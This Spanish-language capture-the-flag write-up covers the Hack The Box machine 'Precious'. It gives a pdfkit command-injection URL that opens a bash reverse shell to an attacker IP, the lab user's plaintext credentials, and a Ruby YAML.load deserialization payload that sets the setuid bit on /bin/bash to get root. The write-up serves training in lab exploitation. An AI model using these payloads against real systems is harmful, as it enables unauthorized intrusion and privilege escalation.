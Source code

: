 ```yaml
---
title: Precious Writeup
published: true
---
```


Hoy resolveremos la máquina retirada "Precious" es una máquina de hack the box de dificultad fácil.

![Precious](https://user-images.githubusercontent.com/109216235/207889455-5ddd49b1-bb86-4f89-af3e-65c44935f1f1.png)

# Enumeración

Empezamos escaneando los puertos de la máquina con nmap

```nmap

sudo nmap 10.10.11.189

Nmap scan report for 10.10.11.189

PORT STATE SERVICE

22/tcp open ssh

80/tcp open http

```

# Vulnerabilidad

Antes de poder entras tenemos que actualizar nuestro etc/hosts para que la IP apunte a precious.htb

Despues, podríamos entrar en la página.

![image](https://user-images.githubusercontent.com/109216235/207906514-b59cd9d7-607c-4e39-a5de-cc88c267d635.png)

Viendo esto podemos crearnos un servidor con python3 para que nos cree un pdf de nuestro servidor

```python

python3 -m http.server 4444

```

![image](https://user-images.githubusercontent.com/109216235/207906825-45cbd4c1-f7e9-48de-92e8-8053d8e595b7.png)

Esto nos generará un pdf. Lo analizamos con "exiftool" y podemos ver que versión de pdfkit se utiliza

![image](https://user-images.githubusercontent.com/109216235/207907027-277bf2aa-0889-4f7d-9118-127fe9b59a28.png)

Buscamos información sobre como injectar comandos en esta máquina. En este sitio https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 encontramos una vulnerbilidad de la que nos podemos aprovechar.

Usando el ejemplo podemos manipularlo para que nos dé una revershell. Recordad que tenemos que poner en escucha "netcat"

```netcat

netcat -lnvp 4444

```

Ejemplo:

```bash

http://example.com/?name=#{'%20`sleep 5`'}

```

Revershell cambiando el ejemplo:

```bash

http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.18/4444 0>&1"`'}

```

Este comando que hemos creado hace:

bash -c: permite introducir strigns

bash -i: Hace que la revershell sea interacitva

/dev/tcp/10.10.16.18/4444: crea la revershell cuando se ejecuten

![image](https://user-images.githubusercontent.com/109216235/207907465-d2cdd79e-7a17-4eb0-8fef-2b00fedc3b7c.png)

Dentro de la máquina podemos encontrar dentro del usuario "ruby" una carpeta oculta llamada "bundle" que contiene las credenciales de "henry"

```

---

BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

```

# Escalada de privilegios

Accedemos al ssh con las credenciales de "henry"

```ssh

ssh henry@10.10.11.189

henry@10.10.11.189's password:Q3c1AqGHtoI0aXAYFH

```

Dentro de la carpeta /home/ de "henry" encontramos la user.txt y ya tendríamos la mitad de la máquina

Utilizamos ```sudo -l``` para ver que se ejecuta como root

```ssh

Matching Defaults entries for henry on precious:

env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:

(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb

```

Buscamos como escalar de privilegios con Ruby YAML.load. En esta página (https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) encontramos una vulnerabilidad. Vemos que si manipulamos el campo git-set podemos escalar de privilegios.

Ejemplo:

```ruby

---

- !ruby/object:Gem::Installer

i: x

- !ruby/object:Gem::SpecFetcher

i: y

- !ruby/object:Gem::Requirement

requirements:

!ruby/object:Gem::Package::TarReader

io: &1 !ruby/object:Net::BufferedIO

io: &1 !ruby/object:Gem::Package::TarReader::Entry

read: 0

header: "abc"

debug_output: &1 !ruby/object:Net::WriteAdapter

socket: &1 !ruby/object:Gem::RequestSet

sets: !ruby/object:Net::WriteAdapter

socket: !ruby/module 'Kernel'

method_id: :system

git_set: id

method_id: :resolve

```

Escalada cambiando el ejemplo:

```ruby

---

- !ruby/object:Gem::Installer

i: x

- !ruby/object:Gem::SpecFetcher

i: y

- !ruby/object:Gem::Requirement

requirements:

!ruby/object:Gem::Package::TarReader

io: &1 !ruby/object:Net::BufferedIO

io: &1 !ruby/object:Gem::Package::TarReader::Entry

read: 0

header: "abc"

debug_output: &1 !ruby/object:Net::WriteAdapter

socket: &1 !ruby/object:Gem::RequestSet

sets: !ruby/object:Net::WriteAdapter

socket: !ruby/module 'Kernel'

method_id: :system

git_set: chmod u+s /bin/bash

method_id: :resolve

```

No se nos puede olvidar que este script se tiene que llamar dependencies.yml y tiene que estar en la carpeta /home/ de "henry"

Ahora ejecutamos este script con ```bash -p``` y tendríamos una shell root. Buscamos la carpeta /root/ y allí encontrariamos la root.txt y habríamos completado la máquina.
